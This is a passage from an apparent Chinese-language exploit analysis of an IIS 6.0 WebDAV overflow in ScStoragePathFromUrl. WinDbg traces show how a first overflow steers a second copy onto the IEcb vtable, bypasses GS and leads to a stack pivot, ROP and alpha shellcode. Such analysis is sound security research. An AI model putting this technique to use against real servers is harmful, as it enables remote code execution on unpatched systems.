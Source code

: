 0:009> dd 680312c0／／要用到的堆地址，这个地址会在最后用到
680312c0  00000000 00000000 00000000 00000000
680312d0  00000000 00000000 00000000 00000000
680312e0  00000000 00000000 00000000 00000000
</pre>
<p nodeIndex="101">可以看到，第二次利用的时候，会把ebp-328这个地方的值推入栈中，这个地方应该是stack buffer的地址，应该是个栈地址，但是现在变成了堆地址，就是由于第一次栈溢出，覆盖了这个变量。</p>
<p nodeIndex="102">而这个值，会作为参数传入ScStorageFromUrl函数，作为memcpy拷贝的值。</p>
<p nodeIndex="103">这也就解释了为什么我们在上面分析漏洞的时候，会是向堆地址拷贝，而这一次拷贝，就不需要控制长度了，因为这个地方的值已经是堆地址，再怎么覆盖，也不会覆盖到cookie。这里未来要覆盖IEcb虚表结构。从而达到漏洞利用。这样，第二次向堆地址拷贝之后，这个堆地址会覆盖到IEcb的虚表，这个虚表结构会在最后利用时引用到。</p>
<p nodeIndex="104">在PoC中，有一处 ，这个会触发漏洞利用，是在CheckIfHeader之后到达位置，在CheckIfHeader的PszToken函数判断没有<>的http url之后，break掉，之后进入lock token处理。</p>
<pre class="prettyprint" nodeIndex="105">
0:009> p
eax=67140d15 ebx=00fffbe8 ecx=680313c0 edx=0060e7b0 esi=00fffc28 edi=00000104
eip=67126c80 esp=00fff940 ebp=00fff950 iopl=0         nv up ei pl nz na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000206
httpext!ScStoragePathFromUrl+0x5:
67126c80 e803100000      call    httpext!_EH_prolog (67127c88)
0:009> kb
ChildEBP RetAddr  Args to Child              
00fff93c 67119469 00fffab4 00fff9a4 00000000 httpext!ScStoragePathFromUrl+0x5
00fff950 67125740 0060e7b0 00fffab4 00fff9a4 httpext!CMethUtil::ScStoragePathFromUrl+0x18
00fffbd0 664d4150 680313c0 65314834 6e666f43 httpext!CParseLockTokenHeader::HrGetLockIdForPath
+0x119
WARNING: Frame IP not in any known module. Following frames may be wrong.
00fffc3c 6711f68e 0060b508 0060584e 80000000 0x664d4150
00fffc78 6711f7c5 0060c010 00fffcd4 671404e2 httpext!CPropFindRequest::Execute+0x125
</pre>
<p nodeIndex="106">这时候对应的IEcb已经被覆盖，这样，在进入ScStoragePathFromUrl函数之后，会进入我们在漏洞分析部分提到的CheckPrefixUrl函数，这个函数中有大量的IEcb虚表虚函数引用。</p>
<pre class="prettyprint" nodeIndex="107">
0:009> p
eax=680313c0 ebx=00fffbe8 ecx=680313c0 edx=00fff4f8 esi=0060e7b0 edi=680313c0
eip=671335f3 esp=00fff4b4 ebp=00fff4d0 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
httpext!ScStripAndCheckHttpPrefix+0x1e:
671335f3 ff5024          call    dword ptr [eax+24h]  ds:0023:680313e4=68016082
0:009> dc eax
680313c0  680313c0 68006e4f 68006e4f 766a4247  ...hOn.hOn.hGBjv
680313d0  680313c0 4f744257 52345947 4b424b66  ...hWBtOGY4RfKBK
</pre>
<p nodeIndex="108">和大家分享了这个精妙利用，一般可能都会觉得是第二次url bbbbb的这个memcpy覆盖了关键函数导致的溢出、利用，实际上，在第一次url aaaaaa中，就已经引发了栈溢出，覆盖到了stackbuffer申请的指向栈buffer的指针，这个指针存放在栈里，用于后续调用存放虚拟路径，由于第一次栈溢出，覆盖到了这个变量导致第二次url bbbbb拷贝的时候，是向一个堆地址拷贝，这个堆地址后面的偏移中，存放着IEcb的vftable，通过覆盖虚表虚函数，在最后locktoken触发的ScStoragePathFromUrl中利用虚函数达到代码执行。</p>
<p nodeIndex="109">而这个过程，也是巧妙的绕过了GS的检查。</p>
<h3 nodeIndex="110">简析ROP及shellcode</h3>
<p nodeIndex="111">这个漏洞使用了一些非常有意思的手法，一个是TK教主在13年安全会议上提到的shareduserdata，在ROP中，另一个是alpha shellcode。</p>
<p nodeIndex="112">首先，在前面虚函数执行之后，会先进行stack pivot，随后进入rop。</p>
<pre class="prettyprint" nodeIndex="113">
0:009> t//stack pivot!!!
eax=680313c0 ebx=00fffbe8 ecx=680313c0 edx=00fff4f8 esi=0060e7b0 edi=680313c0
eip=68016082 esp=00fff4b0 ebp=00fff4d0 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
rsaenh!_alloca_probe+0x42:
68016082 8be1            mov     esp,ecx
0:009> p
eax=680313c0 ebx=00fffbe8 ecx=680313c0 edx=00fff4f8 esi=0060e7b0 edi=680313c0
eip=68016084 esp=680313c0 ebp=00fff4d0 iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00000246
rsaenh!_alloca_probe+0x44:
68016084 8b08            mov     ecx,dword ptr [eax]  ds:0023:680313c0=680313c0
0:009> p